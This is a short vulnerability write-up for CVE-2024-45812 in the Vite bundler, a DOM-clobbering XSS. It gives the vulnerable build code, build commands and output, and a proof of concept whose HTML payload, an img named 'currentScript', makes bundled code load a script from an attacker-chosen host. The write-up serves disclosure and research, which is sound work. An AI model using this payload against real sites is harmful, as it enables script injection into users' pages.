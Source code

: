 ## Vite

### Meta

+ Library: Vite
+ Version: v5.4.5
+ Stars: 67.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: CVE-2024-45812
+ Status: Patched
+ Foundby: TheHulk

### Library

https://github.com/vitejs/vite

### Vulnerable Code Snippet

```js
// https://github.com/vitejs/vite/blob/main/packages/vite/src/node/build.ts#L1309
const relativeUrlMechanisms = {
  amd: (relativePath) => {
    if (relativePath[0] !== ".") relativePath = "./" + relativePath;
    return getResolveUrl(
      `require.toUrl('${escapeId(relativePath)}'), document.baseURI`
    );
  },
  cjs: (relativePath) => `(typeof document === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath)})`,
  es: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', import.meta.url`
  ),
  iife: (relativePath) => getRelativeUrlFromDocument(relativePath),
  // NOTE: make sure rollup generate `module` params
  system: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', module.meta.url`
  ),
  umd: (relativePath) => `(typeof document === 'undefined' && typeof location === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath, true)})`
};
```

```sh
npm install -D vite
node ./node_modules/vite/bin/vite.js build
```

Output:
```js
"use strict";const t=""+(typeof document>"u"?require("url").pathToFileURL(__dirname+"/extra-Cjq7Wz0N.js").href:new URL("extra-Cjq7Wz0N.js",document.currentScript&&document.currentScript.src||document.baseURI).href);var e=document.createElement("script");e.src=t;document.head.append(e);
```

## PoC

as an example, bundle the js below: `node ./node_modules/vite/bin/vite.js build`.

```js
import extraURL from './extra.js?url'
var s = document.createElement('script')
s.src = extraURL
document.head.append(s)
```

example html:


```html
<!--Library-->
<script type="module" crossorigin src="index-DDmIg9VD.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

